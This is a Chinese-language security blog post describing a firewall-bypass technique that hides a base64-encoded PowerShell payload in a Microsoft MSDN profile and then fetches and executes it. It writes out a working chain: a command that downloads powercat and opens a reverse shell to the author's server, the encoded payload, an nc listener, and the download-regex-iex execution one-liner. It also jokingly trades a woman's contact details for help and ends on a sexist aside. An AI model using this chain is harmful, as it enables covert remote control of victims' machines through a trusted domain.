 ```yaml
---
layout: post
title: "使用Microsoft.com域绕过防火墙并执行有效负载" 
subtitle: "使用Microsoft.com域绕过防火墙并执行有效负载"
date: 2019-07-13
author: ppbibo
category: apt
---
```


[TOC]

**PS：**

看到九世哥哥发的文章感觉思路很骚就去复现一下玩玩，但是奈何本人的windows 7 不给力 低版本的prowershell 不支持 `Invoke-WebRequest`、`iwr`、`curl`和`wget`（其实他们是一个东西）所以把虚拟机的prowershell 给删了。



## 0x1 利用方法反弹一个shell

注册 microsoft 账号，然后插入base64 编码的payload

打印 base64编码后的payload命令如下：

```bash
printf '%s' "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 161.129.xx.xx -p 6666 -e cmd" | base64 | tr -d '\n'
```

输出：

```bash
SUVYIChOZXctT2JqZWN0IFN5c3RlbS5OZXQuV2ViY2xpZW50KS5Eb3dubG9hZFN0cmluZygnaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2Jlc2ltb3JoaW5vL3Bvd2VyY2F0L21hc3Rlci9wb3dlcmNhdC5wczEnKTtwb3dlcmNhdCAtYyAxNjEuMTI5LjQzLjE2OSAtcCA2NjY2IC1lIGNtZA==
```

**RT：**

![microsoft-1](/static/img/microsoft-1.png)

*Tag：ip 自己改哦！（因为这个被九世哥哥骂了一下；俗话说打是亲骂是爱我不怪他。）*



将base64编码后的 payload 插入到作者简介中 **RT：**

![microsoft-2](/static/img/microsoft-2.png)

**TAG：不要忘记开头的 START 还有结尾的 END** *( 用来正则匹配的 )*。



接下来就是执行powershell command反弹shell了。打开服务器

#### 服务器IP：161.129.xxx.xxx

#### 服务器监听 6666 端口

```bash
$ nc -lvvp 6666
```

*PS ： 等待了一个下午。。。*😭



## 0x2 群里弟弟求助哥哥们

我拿出了妹子联系方式做为交换求他们执行一下 让我反弹个shell 

![microsoft-3](/static/img/microsoft-3.png)



最终九世哥哥耐不住寂寞要开机祝我一臂之力了。

#### PowerShell Execution code

```bash
$wro = iwr -Uri https://social.msdn.microsoft.com/Profile/testestPPbibo -UseBasicParsing;$r = [Regex]::new("(?<=START)(.*)(?=END)");$m = $r.Match($wro.rawcontent);if($m.Success){ $p = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($m.value));iex $p };
```

##### 代码解析：

```bash
$wro = iwr -Uri https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1 -UseBasicParsing;  -> 请求url获取源码
```

```bash
$r = Regex::new("(?<=START)(.*)(?=END)"); -> 正则表达式
```

```bash
$m = $r.Match($wro.rawcontent);  -> 正则匹配，创建变量m
```

```bash
if($m.Success){ $p = System.Text.Encoding::UTF8.GetString(System.Convert::FromBase64String($m.value));      -> 如果匹配到正则，解码base64赋值为$p
```

```bash
iex $p   -> 执行payload
```

执行代码**RT ：**

![microsoft-4](/static/img/microsoft-4.png)



我的服务器 say 来了来了。。。

![microsoft-5](/static/img/microsoft-5.png)

在反弹的过程中不是很顺利 卡死多次，但是为了提升点bi格。

九世哥哥提议弹个calc 。

![microsoft-6](/static/img/microsoft-6.png)

将 microsoft 作者简介中 Payload 替换掉 **RT：**

![microsoft-7](/static/img/microsoft-7.png)

然后九世哥哥给出了一张有Bi格的图片：

![microsoft-8](/static/img/microsoft-8.png)



OK 结束了 是时候兑现自己诺言了。

![microsoft-9](/static/img/microsoft-9.png)



**九世哥哥果然是英雄好汉，好了！🙏一下大佬**



## 总结

思路骚才是硬道理

这种方式深入一下利用方式很不错的仅提供思路

*妹子只会打扰阻碍大佬前进的步伐，九世哥哥是个很好的例子。*



[参考](https://www.secquan.org/Discuss/1069837)